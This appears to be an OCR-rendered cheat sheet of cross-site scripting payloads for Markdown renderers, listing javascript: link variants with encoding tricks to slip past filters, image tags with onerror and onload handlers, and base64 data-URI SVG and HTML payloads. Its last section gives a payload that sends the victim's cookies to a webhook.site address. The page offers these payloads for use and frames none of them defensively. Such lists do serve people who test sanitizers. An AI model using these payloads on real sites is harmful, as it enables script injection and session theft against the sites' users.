 ## XSS via Markdown Payloads 

#### Hyperlink to XSS

```bash
[a](javascript:this;alert(1))
[a](javascript:this;alert(1&#41;)
[a](javascript&#58this;alert(1&#41;)
[a](http://a?p=[[/onclick=alert(0) .]])
[a](javascript:new%20Function`al\ert\`1\``;)
[a](Javas&#99;ript:alert(1&#41;)
[a](Javas%26%2399;ript:alert(1&#41;)
[a](javascript:alert&#65534;(1&#41;)
[a](javascript:confirm(1)
[a](javascript://www.google.com%0Aprompt(1))
[a](javascript://%0d%0aconfirm(1);com)
[a](javascript:window.onerror=confirm;throw%201)
[a](javascript:alert(document.domain&#41;)
[a](javascript://www.google.com%0Aalert(1))
[a]('javascript:alert("1")')
[a](JaVaScRiPt:alert(1))
![a](https://lnkd.in/d-5FWcWe"onload="alert(1))
[a]("onerror="alert(1))
</http://<?php\><\h1\><script:script>confirm(2)
[XSS](.alert(1);)
```

#### Image to XSS

```bash
![XSS](x"onerror="alert(1)")
![XSS](x"onload="alert(1)")
![XSS](<"onerror="alert('XSS')>)
![XSS](<https://www.example.com/image.png"onerror="alert('XSS')>)
![a](data:image/svg+xml,<svg/onload=alert(1)>)
![a](data:image/svg+xml,<svg/onload="alert(1)">)
![a](data:image/svg+xml;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMSk+)
![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\
![a](data:image/svg+xml,<svg><script>alert(1)</script></svg>)
![a](javascript&#x3A;alert(1))
![a](javascript:alert`1`)
```

#### To Retrive user's Cookies on your Server

```bash
[XSS](javascript:window.onerror=window.location='https://webhook.site/09731cdb-80b0-47e8-a057-f86e939f1ad9?'+document.cookie)
```

#### Supporting Material:-
- https://huntr.dev/bounties/b2caceaa-5b28-40ba-9980-70144159efba/
- https://amjadali110.medium.com/hyperlink-injection-726d8151b216
